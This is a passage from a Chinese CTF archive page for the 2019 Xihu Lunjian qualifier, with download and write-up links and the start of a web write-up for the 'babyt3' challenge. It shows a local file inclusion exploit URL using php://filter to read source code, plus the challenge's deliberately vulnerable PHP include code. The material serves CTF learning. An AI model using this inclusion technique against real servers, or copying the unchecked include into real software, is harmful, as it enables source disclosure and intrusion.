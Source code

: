 # 2019西湖论剑预选赛
## 题目类型：
|类型|年份|难度|
|:---:|:---:|:---:|
|官方赛事题|2019|中|

# 题目下载：
+ 链接: https://pan.baidu.com/s/1B9Coqdmh8wYnYo3eW3MOMg 提取码: bagw

# 网上公开WP:
+ https://mp.weixin.qq.com/s/rlSyABoulRKygPmwfcUuXA
+ https://www.anquanke.com/post/id/176136/
+ https://www.jianshu.com/p/c14970447ddd
+ https://blog.csdn.net/qq_41420747/article/details/89076214

# 本站备份WP：
**感谢：冷逸、fIappy[暂时未联系到作者]**  
## Web
**作者：冷逸**  
### babyt3

题目地址：http://61.164.47.198:10000/

打开地址，发现提示：

```
include $_GET['file'] 
```

目测为文件包含，尝试读index.php的源码，

> http://61.164.47.198:10000/?file=php://filter/read=convert.base64-encode/resource=index.php

还原后如下：

```
<?php
$a = @$_GET['file'];
if (!$a) {
    $a = './templates/index.html';
}
echo 'include $_GET[\'file\']';
if (strpos('flag',$a)!==false) {
    die('nonono');
}
include $a;
?>

<!--hint: ZGlyLnBocA== -->
```

